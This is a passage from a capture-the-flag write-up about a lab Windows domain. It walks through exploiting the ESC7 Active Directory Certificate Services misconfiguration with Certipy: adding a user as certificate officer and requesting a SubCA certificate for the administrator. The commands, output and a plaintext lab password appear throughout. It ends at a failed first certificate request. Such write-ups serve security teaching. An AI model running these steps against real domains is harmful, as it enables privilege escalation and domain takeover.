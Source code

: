 The last line is the most important! Raven has dangerous permissions, with the label ESC7.

### ESC7

#### Add Manage Certificates

ESC7 is when a user has either the “Manage CA” or “Manage Certificates” access rights on the certificate authority itself. Raven has ManageCa rights (shown in the output above).

The steps to exploit this are on the [Certipy](https://github.com/ly4k/Certipy) README.

First, I’ll need to use the Manage CA permission to give Raven the Manage Certificates permission:

```

oxdf@hacky$ certipy ca -ca manager-DC01-CA -add-officer raven -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'Raven' on 'manager-DC01-CA'

```

Now Raven shows up there where they didn’t before:

```

oxdf@hacky$ certipy find -dc-ip 10.10.11.236 -ns 10.10.11.236 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -stdout
...[snip]...
        ManageCertificates              : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\Raven
...[snip]...

```

This gets reset periodically, so if I find some step breaks while exploiting, it’s worth going back to see if that is why.

#### Administrator Certificate

The first step is to request a certificate based on the Subordinate Certification Authority (SubCA) template provided by ADCS. The SubCA template serves as a predefined set of configurations and policies governing the issuance of certificates.

```

oxdf@hacky$ certipy req -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.2 - by Oliver Lyak (ly4k)                             

[*] Requesting certificate via RPC                         
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 13
Would you like to save the private key? (y/N) y
[*] Saved private key to 13.key
[-] Failed to request certificate

```
